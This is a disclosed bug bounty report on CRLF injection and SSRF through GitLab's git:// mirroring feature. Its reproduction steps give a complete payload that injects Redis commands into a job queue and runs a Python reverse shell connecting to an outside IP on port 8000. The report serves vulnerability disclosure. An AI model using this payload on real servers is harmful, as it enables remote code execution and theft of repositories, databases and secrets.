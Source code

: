 # CRLF injection & SSRF in git:// protocal lead to arbitrary code execution

## Report Details
- **Report ID**: 441090
- **URL**: https://hackerone.com/reports/441090
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-11-15T05:33:36.293Z
- **Disclosed**: 2020-11-23T16:07:44.869Z

## Reporter
- **Username**: chromium1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
**Summary:** 
The implementation of `git://` protocal in GitLab is vulnerable to CRLF injection and Server-Side Request Forgery. If the redis server is configured to listen on TCP socket (eg. port 6379), an attacker can abuse SSRF to manipulate redis server, injecting malicious payload into system_hook_push queue, which result in arbitrary code execution.

**Description:** 
This vulnerability is similar to @jobert 's https://hackerone.com/reports/299473 . GitLab patched the CRLF injection in HTTP header and introduced the UrlBlocker module to prevent HTTP requests going into intranet. But `git://` is not restricted to the UrlBlocker. 
This gif shows a request sent to 127.0.0.1:2333 with multiple CRLF injected:
{F375843}

## Steps To Reproduce:
  1. Follow [GitLab Docs](https://docs.gitlab.com/omnibus/settings/redis.html) to set up a redis server listening on `127.0.0.1:6379`
  2. Sign in and create a project, go to project Settings -> Repository -> Mirroring repositories
  3. Add a mirror repo, capture the POST request using BurpSuite or Fiddler or whatever you like, and modify the post param `project[remote_mirrors_attributes][0][url]` to:

```
git://127.0.0.1:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|/usr/bin/python3 -c \\\\\'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"118.89.198.146\\\",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"]);\\\\\'\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
/bbbbb/ccccc
```

(Thanks to @jobert 's [payload](https://hackerone.com/reports/299473) again!)

  4. Make a POST request to `/{username}/{project name}/mirror/update_now?sync_remote=true` to trigger the mirror action
  5. Attacker will receive a reverse shell on 118.89.198.146 port 8000

{F375845}

## Impact

Same as https://hackerone.com/reports/299473:
> An attacker can execute arbitrary system commands on the server, which exposes access to all git repositories, database, and potentially other secrets that may be used to escalate this further.

## Attachments
- 2.gif
- 1.gif
